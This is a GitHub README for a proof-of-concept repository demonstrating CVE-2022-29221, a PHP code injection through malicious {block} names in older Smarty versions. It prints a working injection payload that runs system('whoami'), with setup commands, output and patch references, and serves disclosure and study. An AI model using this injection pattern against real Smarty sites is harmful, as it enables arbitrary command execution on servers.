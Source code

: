 # CVE-2022-29221-PoC
This is a very basic Smarty sceleton app with a single template that shows the Proof of Concept code for CVE-2022-29221.

Injection Example Code:
```
{block name="poc*/system('whoami');/*"}ABC{/block}
```
See: https://github.com/sbani/CVE-2022-29221-PoC/blob/main/template/index.tpl

After running the code, Smarty will add a new php file in the `./compile/` folder. You can see the resulting (and vulnerable) code there.

## Run test

Install:
```
git clone git@github.com:sbani/CVE-2022-29221-PoC.git
cd CVE-2022-29221-PoC
composer install
```

Run:
```
❯ whoami
sbani
❯ php index.php
sbani
sbani
ABC
```

## CVE details
> Smarty is a template engine for PHP, facilitating the separation of presentation (HTML/CSS) from application logic. Prior to versions 3.1.45 and 4.1.1, template authors could inject php code by choosing a malicious {block} name or {include} file name. Sites that cannot fully trust template authors should upgrade to versions 3.1.45 or 4.1.1 to receive a patch for this issue. There are currently no known workarounds.

Fix commit is here:
- https://github.com/smarty-php/smarty/commit/64ad6442ca1da31cefdab5c9874262b702cccddd


References:
- https://nvd.nist.gov/vuln/detail/CVE-2022-29221
- https://github.com/smarty-php/smarty/security/advisories/GHSA-634x-pc3q-cf4c
